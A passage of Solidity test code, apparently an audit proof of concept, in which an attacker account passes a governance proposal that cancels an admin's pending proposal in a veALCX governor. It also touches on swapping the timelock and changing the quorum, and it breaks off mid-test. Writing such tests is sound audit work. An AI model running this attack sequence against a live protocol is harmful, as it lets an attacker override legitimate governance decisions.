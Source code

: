 ```Solidity
        hevm.startPrank(dead);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        console2.log("Current Timelock:  ", governor.timelock()); // The timelock contract updated
    }

    function testCancellingProposalsAttack() public {
        createVeAlcx(admin, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef, 5e22, MAXTIME, false);
        createVeAlcx(dead, 15_000e18, MAXTIME, false);

        hevm.warp(block.timestamp + 50);

        // The first proposal which is an important proposal which admin proposes

        hevm.startPrank(admin);
        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(admin);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // The attacker proposes a proposal aiming to cancel the aforementioned proposal

        hevm.startPrank(dead);

        (address[] memory t1, uint256[] memory v1, bytes[] memory c1, string memory d1) = 
            craftCancellingProposal(t, v, c, d, MAINNET);
        uint256 pid1 = governor.propose(t1, v1, c1, d1, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(dead);
        governor.castVote(pid1, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // execute
        hevm.startPrank(admin);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        // The last proposal which aims to change the acceptance quorum

        hevm.startPrank(beef);
        uint256 previousQuorum = governor.quorumNumerator();
        console2.log("Previous Quorum: ", previousQuorum);

        (address[] memory t2, uint256[] memory v2, bytes[] memory c2, string memory d2) = craftUpdateQuorumProposal();
```